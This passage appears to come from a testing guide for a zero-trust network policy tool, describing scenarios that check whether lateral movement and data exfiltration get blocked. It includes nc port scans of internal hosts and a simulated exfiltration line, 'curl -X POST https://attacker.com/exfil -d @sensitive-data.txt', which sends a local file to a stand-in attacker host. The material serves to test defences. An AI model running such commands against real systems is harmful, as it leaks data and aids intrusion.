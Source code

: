 ```bash
# 1. Apply lateral movement policy
ztap enforce -f examples/lateral-movement.yaml

# 2. Simulate compromise (from "web" labeled host)
# Try to scan database
nc -zv 10.0.0.5 5432

# 3. Try to scan another web server
nc -zv 10.0.0.10 8080
```

**Expected Results**:

- Connection to database (10.0.0.5:5432): BLOCKED
- Connection to other web servers: BLOCKED
- Only connections to API tier: ALLOWED

### Scenario 2: Data Exfiltration

**Objective**: Block IoT device from sending data to external IPs

**Setup**:

```bash
# 1. Apply IoT policy
cat > iot-policy.yaml << EOF
apiVersion: ztap/v1
kind: NetworkPolicy
metadata:
  name: iot-restricted
spec:
  podSelector:
    matchLabels:
      app: iot
  egress:
    - to:
        ipBlock:
          cidr: 8.8.8.8/32
      ports:
        - protocol: UDP
          port: 53
EOF

ztap enforce -f iot-policy.yaml

# 2. Simulate exfiltration attempt
curl -X POST https://attacker.com/exfil -d @sensitive-data.txt
```

**Expected Result**: Connection to attacker.com: BLOCKED (only DNS to 8.8.8.8 allowed)

### Scenario 3: Cloud Misconfiguration
